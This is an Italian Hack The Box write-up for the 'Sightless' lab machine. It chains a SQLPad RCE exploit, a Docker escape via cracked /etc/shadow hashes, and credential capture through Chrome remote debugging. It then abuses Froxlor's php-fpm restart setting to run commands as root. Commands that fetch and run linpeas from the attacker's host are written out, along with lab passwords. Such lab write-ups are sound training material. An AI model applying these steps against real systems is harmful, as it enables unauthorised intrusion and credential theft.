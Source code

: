 # Sightless HTB challenge WRITEUP
Made by: [Gianlush](https://github.com/Gianlush/)

## Information Gathering
Come prima cosa si visita l'ip della challenge, viene visualizzato l'hostname `sightless.htb`, che verrà aggiunto al file `/etc/hosts` nel mentre si lancia una classica scansione nmap:
```bash
nmap -sC -sV -oA export/nmap
```
La scansione mostra un servizio FTP sulla porta 21, oltre al solito web-service sulla 80.

![nmap](images/nmap.png)

Navigando un po' sulla webpage si può intuire la presenza di 3 servizi principali in esecuzione:
- Una web interface per SQL: **SQLPad**
- Un server admin software: **Froxlor**
- Un qualche tipo di SQL DB

![services](images/services.png)

Cliccandoci sopra, veniamo rimandati ad un altro dominio: `sqlpad.sightless.htb`, da aggiungere come sempre ad `/etc/hosts`.

## SQLPad Exploitation
Appare un servizio per l'esecuzione di SQL query, di cui possiamo facilmente scoprire la versione dal menu `About`:

![sqlpad-version](images/sqlpad-version.png) 

Cercando online la versione per potenziali exploit già esistenti si trova questo [link](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944) che una volta [implementato](exploit-sqlpad.py) ed eseguito ci consente di ottenere una `reverse-shell` su cui risultiamo essere `root`. Questo fa pensare (e si conferma dopo) che si trova all'interno di un Docker.

![rev-shell](images/docker-shell.png)

## Docker Escape

Il file `docker-entrypoint.sh` in `/` ci conferma che ci troviamo dentro un Docker. A questo punto ho iniziato a cercare qualche file potenzialmente utile legato a Docker tramite:
```bash
find / -name docker* 2> /dev/null
```

Nel mentre ho lanciato il seguente comando sulla mia macchina, all'interno di una directory contenente `linpeas.sh` cosi da scaricarlo tramite `wget` sulla macchina vulnerabile:
```bash
$ python3 -m http.server 8000

$ wget http://{my_ip}:8000/linpeas.sh
```

Lo script ha trovato moltissimi file interessanti, tra cui `/etc/shadow` sul quale erano presenti 2 HASH relativi all'utente `root` e l'utente `michael`. Provando a crackare tali hash con `john` si ottiene:

![crack](images/cracked-hash.png)

La password per `root` non ci è molto utile dato che già lo siamo. Si potrebbe provare ad accedere tramite `ssh` all'utente `micheal` con la password appena trovata:

```bash
ssh micheal@sightless.htb #using insaneclownposse as password
```

Funziona! E siamo dentro la macchina come `user`, e possiamo anche leggere la prima flag:

```bash
cat ~/user.txt
```

## Privilege Escalation

Per prima cosa lancio vari comandi classici per capire meglio il contesto:
```bash
$ sudo -l
$ nestat -antp
$ cat /etc/passwd
$ find / -perm -4000 2>/dev/null
$ wget http://{my_ip}:{port}/linpeas.sh && chmod +x ./linpeas.sh && ./linpeas.sh
```
Linpeas è in grado di individuare un servizio in esecuzione avviato con l'opzione `--remote-debugging-port=0`, che viene segnalata come vulnerabilità grave. Facendo una [ricerca](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/) a riguardo si scopre che è possibile visualizzare il traffico di rete attraverso ChromeDebugger. Dato che l'opzione non specifica una porta, bisogna andare a tentativi per capire di quale si tratta, ed anche di quale servizio si sta inoltrando il traffico in Debug.

Alla prima domanda si può rispondere più facilmente, dato che solitamente la porta `8080` (che è in uso) è usata per web-application. Infatti, tramite una semplice ```wget http://localhost:8080``` si ottiene una risposta HTML. Si tratta probabilmente della pagina di admin riportata dentro `/etc/hosts` con dominio `admin.sightless.htb`.

### Froxlor Exploit
Si comincia, quindi, eseguendo il `Port Forwarding` di tale servizio tramite il seguente comando (sulla proprio macchina):

```bash
ssh -L 9090:localhost:8080 michael@sightless.htb
```

Ora, visitando `http://localhost:9090` dovremmo essere in grado di visualizzare il servizio. Potrebbe essere necessario inserire il nuovo dominio `admin.sightless.htb` all'interno del proprio file `/etc/hosts`, o usare `127.0.0.1` come indirizzo anzichè `localhost`.

![froxlor](images/froxlor.png)

Per verificare il traffico sul ChromeDebugger, eseguo lo stesso `Port Forwarding` sulla mia porta `9091` di tutte le altre porte aperte in modalità `LISTEN`, ad una ad una. Il tutto solo dopo aver aperto il browser Chrome al url `chrome://inspect/#devices` ed aver configurato il target `localhost:9091`. Appena beccata la porta giusta, su Chrome apparirà:

![chrome](images/chrome_debug.png)

e cliccando su `Inspect` per poi andare nella sezione network, è possibile vedere l'admin che effettua il login e le credenziali che invia tramite la richiesta HTTP:

![admin-login](images/network_debug.png)

```
loginname: Admin
password: ForlorfroxAdmin
```

Tramite queste credenziali possiamo autenticarci su `Froxlor` come Admin.

Ho cercato online delle possibile CVE per Froxlor da sfruttare, ma niente che mi permettesse di eseguire codice. Tra l'altro essendo già Admin, non avrebbe molto senso cercare exploit di quel tipo, quanto piuttosto delle impostazioni particolari che è possibile manipolare per causare l'esecuzione di codice.

### FTP rabbit hole

Cercando sulla pagina Admin, ho trovato la sezione `Resources/Customers/` tramite la quale è possibile modificare la password di accesso per l'utente `web1`. Fatto questo, ed effettuato l'accesso con l'account web1, si nota il menu `FTP` dove è possibile ancora una volta cambiare la password di accesso. 

A questo punto provo a collegarmi in FTP sul server:

```bash
ftp sightless.htb
```

![ftp-500](images/ftp-500.png)

Ricevendo l'errore `550`, provo dunque ad usare `lftp` per instaurare una connessione con `SSL/TLS` (dopo aver disabilitato la verifica del certificato con `set ssl:verifiy-certificate false`):

![ftp](images/ftp.png)

Qui dentro possiamo trovare il file `Database.kdb`, cioè un file export del software `KeePass`, cioè un portachiavi virtuale contenente password. Provo subito quindi ad accedervi tramite il tool `kpcli` ma purtroppo non è presente nessuna entry al suo interno.

### php-fpm restart command

Indagando ulteriormente nel menu `PHP`, ho trovato nella sezione `PHP-FPM versions`, la dicitura `php-fpm restart command` che poteva essere modificata a piacere. Ho quindi cercato il modo per "riavviare" il servizio per poter far eseguire il comando di restart e ho fatto alcune prove inserendo come comando una semplice `touch /tmp/test`:

![test](images/php-test.png)

Ho quindi riavviato il servizio cliccando 2 volte sulla seguente spunta:

![restart](images/restart.png)

Ed ho aspettato che il comando venisse eseguito. Una volta avuta prova del successo. Ho eseguito nuovamente la stessa procedura per eseguire i seguenti comandi:

```bash
$ cp /root/root.txt /tmp/root.txt
$ chmod 777 /tmp/root.txt
```

Cioè ho copiato la flag e ho dato i permessi di lettura a chiunque, cosi da poter leggere e completare la challenge. 

Per evitare spoiler a chiunque altro, ho poi subito eliminato quel file.

